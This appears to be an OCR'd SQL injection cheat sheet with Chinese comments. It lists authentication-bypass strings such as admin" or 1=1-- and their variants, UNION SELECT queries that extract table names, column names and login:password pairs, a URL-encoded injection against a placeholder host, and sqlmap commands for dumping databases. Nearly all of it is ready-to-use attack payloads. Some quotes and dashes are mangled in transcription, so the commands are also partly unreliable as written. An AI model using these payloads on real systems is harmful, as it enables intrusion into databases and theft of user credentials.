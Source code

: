admin"or 1=1 or ""="
 
admin" or 1=1
 
admin" or 1=1--
 
admin" or 1=1#
 
admin" or 1=1/*
 
admin") or ("1"="1
 
admin") or ("1"="1"--
 
admin") or ("1"="1"#
 
admin") or ("1"="1"/*
 
admin") or "1"="1
 
admin") or "1"="1"--
 
admin") or "1"="1"#
 
admin") or "1"="1"/*
#　获取当前表名：
1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables;

＃　获取列名：
1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns;

＃　获取⽤⼾名密码举例：
1 UNION SELECT 1,concat(login,’:’,password),3,4 FROM users;

＃　使⽤ URL 编码举例:
http://INSERTIPADDRESS/database.php id=1%20UNION%20SELECT%201,concat%2

8table_name,%27:%27,%20column_name%29%20FROM%20information_schema.columns

＃　使⽤ SQLMap
最简单的模式：
sqlmap –wizard

＃ 使⽤ burp 保存的 请求包：
sqlmap -r request.txt

# 指定 cookie 值：
sqlmap -u “http://INSERTIPADDRESS/index.php id=1” –cookie “PHPSESSIONID=1234example”

# dump 数据：
sqlmap -u “http://INSERTIPADDRESS/index.php id=1” –dbms=mysql -D databasename -T tablename –dump

# 指定 Crawl :
sqlmap -u http://INSERTIPADDRESS –dbms=mysql –crawl=3
